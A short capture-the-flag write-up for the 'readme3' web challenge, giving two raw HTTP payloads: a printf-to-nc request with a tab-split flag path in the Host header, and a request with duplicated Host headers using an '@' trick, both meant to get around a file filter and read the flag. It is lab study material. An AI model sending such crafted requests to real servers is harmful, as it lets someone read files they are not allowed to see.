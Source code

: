 # readme3

* Round: 48 (2024/08)
* Category: Web
* Points: 75
* Solves: 12

## Description

It is just [readme2](../../../ImaginaryCTF%202024/readme2/) with a small twist. Hope you can actually solve it with the intended way.

## Solution

```bash
printf 'GET http://not_used HTTP/1.0\r\nHost: fakehost/fla\tg.txt?\r\n\r\n' | nc localhost 4000
```

## Another solution by @IcesFont

```http
GET / HTTP/1.1
Host: lol
Host: a@a/fla\tg.txt?
```
